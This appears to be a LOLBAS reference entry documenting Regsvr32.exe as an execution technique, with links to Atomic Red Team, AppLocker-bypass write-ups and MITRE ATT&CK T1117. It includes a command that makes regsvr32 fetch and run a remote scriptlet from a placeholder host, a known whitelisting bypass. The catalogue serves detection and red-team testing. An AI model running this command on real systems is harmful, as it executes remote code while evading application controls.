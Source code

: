 ## Regsvr32.exe
  
* Functions: Execute

```
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll    
    
regsvr32.exe /s /u /i:file.sct scrobj.dll     
```
   
Acknowledgements:
* Casey Smith - @subtee
   
Code sample:
* [Regsvr32_calc.sct](https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payloads/Regsvr32_calc.sct)[1]

Resources:
* https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Regsvr32.md
* https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
* https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/

Full path:
```
C:\Windows\System32\regsvr32.exe
C:\Windows\SysWOW64\regsvr32.exe
```

Notes:
[1]Code sample linked to Red Canary - Atomic Red Team


 

   
   MITRE ATT&CK:
* [Regsvr32](https://attack.mitre.org/wiki/Technique/T1117)
